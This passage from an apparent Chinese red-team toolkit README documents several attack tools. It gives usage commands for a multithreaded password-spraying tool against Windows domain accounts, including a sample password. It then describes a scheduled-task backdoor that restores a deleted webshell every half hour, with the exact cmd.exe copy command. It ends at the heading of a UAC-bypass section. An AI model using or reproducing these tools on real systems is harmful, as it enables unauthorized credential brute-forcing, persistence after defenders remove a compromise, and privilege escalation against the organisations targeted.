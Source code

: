 ```
Usage: BlastDomainUserPwd.exe <domainComputerIp> <domainUser.txt> <password> <t_num>
       BlastDomainUserPwd.exe \\192.168.52.29 domainUser.txt password 100
       BlastDomainUserPwd.exe \\域机器IP 域用户名字典 尝试爆破的密码 多线程数目
```

域用户名字典格式规范：域名\域用户名

 `domain\user`

![](./imgs/BlastDomainUserPwd_domainUser.png)


运行实例： `BlastDomainUserPwd.exe \\192.168.52.2 domainUser.txt 1qaz@WSX 3`

![](./imgs/BlastDomainUserPwd_use.png)

成功爆破出的域用户密码保存在当前目录的success.txt文本里

![](./imgs/BlastDomainUserPwd_success.png)


## 0x09. SchtaskBackDoorWebshell

功能：计划任务维持webshell

### 1. 适用场景：

护网中被防守方发现webshell，并清除出去，漏洞也被修复，然后网站恢复后不能再上传webshell时，通过计划任务重写webshell。

### 2. 条件：

管理员权限，因为创建计划任务得需要管理员权限

### 3. 使用方法：

xxxx.exe c:\wwww\upload\1.jsp

### 4. 实现过程：

将c:\wwww\upload\1.jsp内容复制到c:\windows\temp\tempsh.txt里，然后创建了一个计划任务，执行的命令是`c:\windows\system32\cmd.exe /c copy c:\windows\temp\tempsh.txt c:\wwww\upload\1.jsp`，每半小时触发一次。

### 5. 视频展示：

![](./imgs/webshell计划任务后门.gif)


## 0x10. regeditBypassUAC

功能：过uac执行exe，编译好的exe只适用于win10，win7不行

### 1. 具体过程

